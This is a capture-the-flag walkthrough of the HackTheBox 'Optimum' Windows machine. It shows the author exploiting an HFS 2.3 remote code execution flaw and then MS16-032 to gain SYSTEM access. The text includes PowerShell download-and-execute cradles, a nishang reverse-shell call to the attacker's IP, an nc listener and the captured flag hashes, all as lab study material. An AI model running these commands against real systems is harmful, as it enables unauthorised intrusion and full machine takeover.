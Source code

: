 ```yaml
---
title: HackTheBox - Optimum
date: 2021-01-07 02:24:42 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, HttpFileServer, HFS, metasploit, meterpreter, suggester, searchsploit, RCE, tcpdump, nishang, powershell, Sherlock, Watson, Windows-Exploit-Suggester, wesng, CVE-2016-0099, MS16-032, Empire, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/optimum/Optimum.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Optimum-full-port-scan.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### HttpFileServer/2.3 (port 80)

![HFS main page](/assets/img/htb/machines/windows/easy/optimum/80-HFS.png)

#### `gobuster`

![gobuster](/assets/img/htb/machines/windows/easy/optimum/80-gobuster.png)
___

## Method #1: using Metasploit (failed)

![metasploit search HFS](/assets/img/htb/machines/windows/easy/optimum/MSF-search.png)

![Desktop View](/assets/img/htb/machines/windows/easy/optimum/MSF-info.png)

### Inspecting payload with Burp

![metasploit HFS exploit options](/assets/img/htb/machines/windows/easy/optimum/MSF-options.png)

The exploit seems to save a visual basic script (`.vbs`) on the target. We press "Forward" button (top left) to go further:

![Burp payload 1](/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-1.png)

Now it execute the malicious script. We press "Forward" again:

![Burp payload 2](/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-2.png)

It worked! We got a **meterppreter** as user `kostas`:

![meterpreter session](/assets/img/htb/machines/windows/easy/optimum/MSF-SUCCESS.png)

### Downloading winPEAS

1. Download [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) (64 bits version)

2. On our machine we run an HTTP Server:

```bash
python3 -m http.server
```

3. From victim's target, go to a world-writeable directory (`c:\Windows\System32\spool\drivers\color>`) and download `winPEAS.exe`: 

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
```

Unfortunately, I didn't find anything interesting in **winPEAS** output.

Therefore, I decided to use **metasploit suggester** &darr;

### Exploit Suggester

Running `sysinfo` within our **meterpreter** session shows us an issue. We're facing a Windows with a 64-bit architecture while our meterpreter is 32 bit (x86):

![meterpreter sysinfo](/assets/img/htb/machines/windows/easy/optimum/MSF-sysinfo.png)

#### x86

If we use **metasploit suggester** anyway:

![MSF suggester x86](/assets/img/htb/machines/windows/easy/optimum/MSF-suggest-x86.png)

#### Migrate (x86 &rarr; x64)

In order to fix this, we can open a shell our **meterpreter** session and then use the `migrate` command:

![meterpreter migrate](/assets/img/htb/machines/windows/easy/optimum/MSF-migrate.png)

#### x64

Now we can use suggester:

![MSF suggester x64](/assets/img/htb/machines/windows/easy/optimum/MSF-suggest.png)

No exploits were suggested.

## Method #2: without Metasploit 

First, since our [`nmap` scan](#nmap-scan) identified that the target is running **HttpFileServer** (HFS) version **2.3**, and considering that `gobuster` didn't find any thing, let's search for exploits:

![searchsploit HttpFileServer](/assets/img/htb/machines/windows/easy/optimum/searchsploit-1.png)

It's interesting to notice that looking for `HFS 2.3` gives us more results:

![searchsploit HFS](/assets/img/htb/machines/windows/easy/optimum/searchsploit-2.png)

However, let's take a look at the first one:

![download first exploit](/assets/img/htb/machines/windows/easy/optimum/searchsploit-m.png)

![exploit source code](/assets/img/htb/machines/windows/easy/optimum/RCE.png)

Okay so it's a very simple RCE:

![testing with ping](/assets/img/htb/machines/windows/easy/optimum/ping.png)

We can see that the `ping` worked, now we can ask ourselves: _how to get a reverse shell?_ 

### Reverse shell

I tried to use this [one-line powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) but I couldn't make it works.

So I used the one from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) repository (`Invoke-PowerShellTcp.ps1`). We simply add the following line to the script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1234
```

> Don't forget to run a listener `nc -lnvp 1234`

Using the exploit (49125.py) example, we can make the target download and execute this reverse shell file by doing so:

```bash
$ python3 49125.py $TARGET 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"
```

![Desktop View](/assets/img/htb/machines/windows/easy/optimum//Invoke-Powersehll.png)

> **NOTE**: `c:\windows\SysNative\` is a folder specific to 64-bit Windows while `c:\windows\System32\` and `c:\windows\SysWow64\` are both 32-bit Windows folders.

Now we got a shell:

![kostas reverse shell](/assets/img/htb/machines/windows/easy/optimum/reverse-shell.png)

### User (kostas)

```powershell
PS C:\Users\kostas\Desktop> type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

### Windows Exploit Suggester - Next Generation (WES-NG)

Neither [Sherlock](https://github.com/rasta-mouse/Sherlock), [Watson](https://github.com/rasta-mouse/Watson#watson) and [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) worked for me.

However, [wesng](https://github.com/bitsadmin/wesng) (Windows Exploit Suggester Next Generation) helped to find some exploits.

I simply had to save `systeminfo` output into a file and gave it as an argument:

![systeminfo](/assets/img/htb/machines/windows/easy/optimum/systeminfo.png)

The target machine is **Windows Server 2012 R2 Standard** version **6.3.9600**. It's a 64 bit machine and many patches have been installed as we see _"31 Hotfix(s) Installed"_. 

![wesng](/assets/img/htb/machines/windows/easy/optimum/wesng.png)

I was interested in **CVE-2016-0099** because of the [Empire](https://github.com/EmpireProject/Empire) exploit &rarr; `Invoke-MS16032.ps1`.

It appears that the target is vulnerable:

![CVE-2016-0099](/assets/img/htb/machines/windows/easy/optimum/CVE.png)

### Privesc

We have to add this line to `Invoke-MS16032.ps1`:

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/shell.ps1')"
```

The script `shell.ps1` is just a copy of the nishang `Invoke-PowerShellTcp.ps1` script we previously modified. The only difference is the port on which we are redirecting the shell: 

![diff between shell.ps1 and Invoke-PowerShellTcp.ps1](/assets/img/htb/machines/windows/easy/optimum/shell-script.png)

Go back to our windows reverse shell, download and execute `Invoke-MS16032.ps1` by doing so:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-MS16032.ps1')
```

![MS16032](/assets/img/htb/machines/windows/easy/optimum/MS16032.png)

Wait for the scripts to be downloaded and executed:

![scripts downloaded](/assets/img/htb/machines/windows/easy/optimum/http-server-ps1.png)

YES! We have access to SYSTEM shell:

![system](/assets/img/htb/machines/windows/easy/optimum/system.png)

```powershell
PS C:\users\Administrator\Desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
___

## Useful links

- [HFS scripting_commands](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
- [one liner powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
- [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099)
- [MS16-032](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2016/MS16-032)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Watson](https://github.com/rasta-mouse/Watson#watson)
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [wesng](https://github.com/bitsadmin/wesng)
- [Empire](https://github.com/EmpireProject/Empire)